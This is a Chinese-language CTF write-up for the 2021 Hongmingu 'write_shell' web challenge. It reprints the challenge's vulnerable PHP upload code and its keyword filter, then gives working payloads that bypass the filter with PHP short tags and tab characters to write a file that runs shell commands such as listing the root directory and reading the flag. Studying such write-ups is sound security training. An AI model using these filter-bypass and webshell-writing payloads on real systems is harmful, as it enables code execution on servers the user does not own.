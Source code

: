 ```yaml
---
layout: post
title: 红明谷CTF 2021 write_shell
date: 2021-07-30 16:56 +0800
last_modified_at: 2021-07-30 16:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

关键词：php短标签

首页代码审计，得到代码如下：

```
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

从`preg_match`中不难看出此题在data中屏蔽了`php`关键字，也屏蔽了`eval _ ^ ~ +`以及空格等关键字，因而看似不能执行php命令，但可以采用php短标签绕过：

```
<?echo 'a';?>    <==>    <?php echo 'a';?>
```

所以此题大致思路为：通过action设为upload进行写入，再将action设为pwd进行读取dir获取index.php位置，最终访问index.php完成代码执行。

payload：

```
?action=upload&data=<?echo%09`ls%09/`?>
//获取根目录文件列表，用%09绕过空格过滤
?action=pwd
//获取index.php所在位置
?action=upload&data=<?echo%09`cat%09/flllllll1112222222lag`?>
//获取根目录下的flag
```


